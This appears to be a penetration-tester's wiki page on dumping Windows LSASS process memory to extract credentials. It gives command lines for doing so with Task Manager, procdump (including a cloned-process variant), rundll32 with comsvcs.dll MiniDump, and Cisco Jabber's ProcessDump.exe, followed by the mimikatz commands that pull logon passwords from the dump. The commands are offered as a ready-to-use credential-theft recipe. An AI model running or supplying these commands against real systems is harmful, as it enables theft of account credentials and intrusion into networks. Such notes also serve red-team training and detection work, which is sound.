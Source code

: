 # Dumping Lsass to Disk Without Mimikatz

## Custom Dumper using MiniDumpWriteDump API

See my other notes about writing a simple custom process dumper using Windows APIs:

{% page-ref page="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}



## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28405%29.png)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber \(always?\) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```text
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](../../.gitbook/assets/image%20%28544%29.png)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}

